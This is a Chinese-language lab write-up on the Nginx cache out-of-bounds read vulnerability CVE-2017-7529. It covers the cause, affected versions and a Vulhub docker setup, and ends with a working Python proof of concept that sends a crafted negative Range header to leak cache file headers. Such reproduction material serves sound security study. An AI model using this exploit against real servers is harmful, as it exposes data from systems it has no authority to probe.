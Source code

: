 # Nginx越界读取缓存漏洞 CVE-2017-7529 

## 漏洞描述

参考阅读：

- https://cert.360.cn/detailnews.html?id=b879782fbad4a7f773b6c18490d67ac7
- [http://galaxylab.org/cve-2017-7529-nginx%E6%95%B4%E6%95%B0%E6%BA%A2%E5%87%BA%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/](http://galaxylab.org/cve-2017-7529-nginx整数溢出漏洞分析/)

Nginx在反向代理站点的时候，通常会将一些文件进行缓存，特别是静态文件。缓存的部分存储在文件中，每个缓存文件包括“文件头”+“HTTP返回包头”+“HTTP返回包体”。如果二次请求命中了该缓存文件，则Nginx会直接将该文件中的“HTTP返回包体”返回给用户。

如果我的请求中包含Range头，Nginx将会根据我指定的start和end位置，返回指定长度的内容。而如果我构造了两个负的位置，如(-600, -9223372036854774591)，将可能读取到负位置的数据。如果这次请求又命中了缓存文件，则可能就可以读取到缓存文件中位于“HTTP返回包体”前的“文件头”、“HTTP返回包头”等内容。

## 漏洞影响

```
Nginx version 0.5.6 - 1.13.2
```

## 环境搭建

Vulhub运行测试环境：

```
docker-compose up -d
```

访问`http://your-ip:8080/`，即可查看到Nginx默认页面，这个页面实际上是反向代理的8081端口的内容。

## 漏洞复现

调用`python3 poc.py http://your-ip:8080/`，读取返回结果：

![image-20220227215641607](images/202202272156040.png)

可见，越界读取到了位于“HTTP返回包体”前的“文件头”、“HTTP返回包头”等内容。

如果读取有误，请调整poc.py中的偏移地址（605）。

## 漏洞POC

```python
#!/usr/bin/env python
import sys
import requests

if len(sys.argv) < 2:
    print("%s url" % (sys.argv[0]))
    print("eg: python %s http://your-ip:8080/" % (sys.argv[0]))
    sys.exit()

headers = {
    'User-Agent': "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240"
}
offset = 605
url = sys.argv[1]
file_len = len(requests.get(url, headers=headers).content)
n = file_len + offset
headers['Range'] = "bytes=-%d,-%d" % (
    n, 0x8000000000000000 - n)

r = requests.get(url, headers=headers)
print(r.text)
```


